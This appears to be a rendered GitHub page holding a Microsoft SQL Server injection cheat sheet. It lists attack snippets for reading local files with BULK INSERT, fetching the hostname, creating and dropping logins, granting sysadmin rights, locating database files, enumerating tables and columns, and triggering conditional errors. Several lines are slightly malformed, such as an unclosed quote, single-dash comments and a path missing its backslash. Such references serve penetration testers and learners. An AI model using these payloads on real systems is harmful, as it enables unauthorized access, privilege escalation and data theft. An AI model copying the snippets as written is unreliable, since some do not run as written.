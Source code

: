 ### Local File Access:
```bash
CREATE TABLE mydata (line varchar(8000));
BULK INSERT mydata FROM 'c:boot.ini';
DROP TABLE mydata;
```

### Hostname, IP Address:
```bash
SELECT HOST_NAME()
```
### Create Users:
```bash
EXEC sp_addlogin 'user', 'pass'; - priv
```
### Drop Users:
```bash
EXEC sp_droplogin 'user'; - priv
```
### Make User DBA:
```bash
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin; - priv
```
### Location of DB files:
```bash
EXEC sp_helpdb master; –location of master.mdf
EXEC sp_helpdb pubs; –location of pubs.mdf
```
### Default/System Databases:
bash
northwind
model
msdb
pubs - not on sql server 2005
tempdb


### Database contents: 
You can list the tables that exist in the database, and the columns that those tables contain.

```bash
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

### Conditional errors: 
You can test a single boolean condition and trigger a database error if the condition is true.
```bash
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```
